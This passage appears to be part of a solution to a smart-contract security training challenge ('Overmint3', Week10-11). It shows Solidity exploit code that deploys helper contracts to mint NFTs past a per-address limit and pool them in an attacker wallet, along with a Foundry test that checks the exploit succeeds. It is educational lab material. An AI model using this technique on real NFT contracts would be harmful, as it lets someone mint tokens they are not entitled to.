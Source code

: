 ```
        new ExploitMedium(overmint3Contract, this);
        new ExploitMedium(overmint3Contract, this);
        new ExploitMedium(overmint3Contract, this);
        new ExploitMedium(overmint3Contract, this);
        new ExploitMedium(overmint3Contract, this);
    }

    function retrieve() public payable {
        uint256 balance = overmint3Contract.totalSupply();
        for (uint256 i = 1; i <= balance; i++) {
            overmint3Contract.transferFrom(address(this), attackerWallet, i);
        }
    }
}

contract ExploitMedium {
    Overmint3 public overmint3Contract;
    Exploit public exploitContract;

    constructor(Overmint3 _overmint3Contract, Exploit _exploitContract) {
        overmint3Contract = _overmint3Contract;
        exploitContract = _exploitContract;
        overmint3Contract.mint();
        uint256 tokenId = overmint3Contract.totalSupply();
        overmint3Contract.transferFrom(address(this), address(exploitContract), tokenId);
    }
}
```
- `test/Week10-11/Overmint3.t.sol`
```
contract Overmint3Test is Test {
    Overmint3 overmint3Contract;
    address attackerWallet;
    Exploit exploitContract;

    function setUp() public {
        overmint3Contract = new Overmint3();
        attackerWallet = address(0xbad);
        exploitContract = new Exploit(overmint3Contract, attackerWallet);
    }

    function testExploit() public {
        vm.startPrank(attackerWallet);
        exploitContract.retrieve();
        vm.stopPrank();
        _checkSolved();
    }

    function _checkSolved() internal {
        assertEq(overmint3Contract.balanceOf(attackerWallet), 5);
        assertTrue(vm.getNonce(address(attackerWallet)) <= 1, "must exploit in one transaction");
    }
}
```
